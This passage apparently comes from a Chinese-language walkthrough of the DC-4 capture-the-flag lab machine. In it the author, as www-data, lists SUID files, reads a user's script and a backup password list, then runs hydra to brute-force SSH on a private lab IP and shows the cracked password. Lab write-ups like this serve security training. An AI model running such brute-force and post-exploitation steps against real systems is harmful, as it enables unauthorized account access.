     /bin/su
    /bin/ping
    /home/jim/test.sh
    ```
    
    发现一个存在可执行文件`test.sh`
    
3. 查看`test.sh`内容，应该提示该目录下有东西什么的
    
    ```python
    www-data@dc-4:/home/jim$ cat test.sh
    //
    #!/bin/bash
    for i in {1..5}
    do
     sleep 1
     echo "Learn bash they said."
     sleep 1
     echo "Bash is good they said."
    done
     echo "But I'd rather bash my head against a brick wall."
    ```
    
4. 进行查看`jim`目录下的文件，目录下的`mbox`文件没访问权限，在`backups`目录下找到`old-passwords.bak` 
    
    ```python
    www-data@dc-4:/home/jim/backups$ cat old-passwords.bak
    cat old-passwords.bak
    000000
    12345
    iloveyou
    1q2w3e4r5t
    1234
    123456a
    
    ...........
    
    svetlana
    fatima
    123456k
    icecream
    popcorn1
    ```
    
    是很多的的密码，我们拿去爆破`ssh`用户`jim` ，将内容保存为`passwd`
    
5. 使用hydra爆破
    
    ```python
     hydra -l jim -P passwd -vV -e ns 192.168.75.173 ssh
    ```
    
    ```python
    [22][ssh] host: 192.168.75.173   login: jim   password: jibril04
    [STATUS] attack finished for 192.168.75.173 (waiting for children to complete tests)
    1 of 1 target successfully completed, 1 valid password found
    ```
    